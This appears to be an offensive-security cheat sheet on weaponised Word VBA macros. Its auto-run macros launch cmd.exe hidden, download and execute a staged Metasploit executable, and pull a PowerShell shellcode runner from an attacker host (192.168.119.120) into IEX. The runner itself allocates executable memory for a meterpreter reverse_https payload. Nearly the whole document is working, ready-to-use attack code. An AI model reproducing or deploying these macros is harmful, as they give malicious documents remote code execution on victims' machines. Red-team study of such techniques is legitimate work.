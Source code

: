 **Using cmd.exe and using the VBA Shell function:**

Macro example:

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub

Sub MyMacro()
  Dim str As String
  str = "cmd.exe"
  Shell str, vbHide
End Sub
```

**Using Windows Script Host(WSH) to launch a cmd.exe:**

Macro example:

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub

Sub MyMacro()
  Dim str As String
  str = "cmd.exe"
  CreateObject("Wscript.Shell").Run str, 0
End Sub
```

**Let powershell help us:**

Downloading an executable, writing it to disk and then exectuting it(take into acount PowerShell Constrained Language Mode):

```
Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
  Shell str, vbHide
  Dim exePath As String
  exePath = ActiveDocument.Path + "\msfstaged.exe"
  Wait (2)
  Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
  Dim t As Date
  t = Now
  Do
    DoEvents
  Loop Until Now >= DateAdd("s", n, t)
End Sub
```
(note that in this script we also added a time delay, since the download time of our executable may vary)

Powershell shellcode runner using the Add-Type compilation method:

Take this PowerShell Script(save it as run.ps1), and then serve it through an HTTP server on port 80.

```
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
      [DllImport("kernel32")]
      public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

      [DllImport("kernel32", CharSet=CharSet.Ansi)]
      public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

      [DllImport("kernel32.dll", SetLastError=true)]
      public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}

"@

Add-Type $Kernel32

#msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Macro to trigger the execution of our PowerShell shellcode runner:

```
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

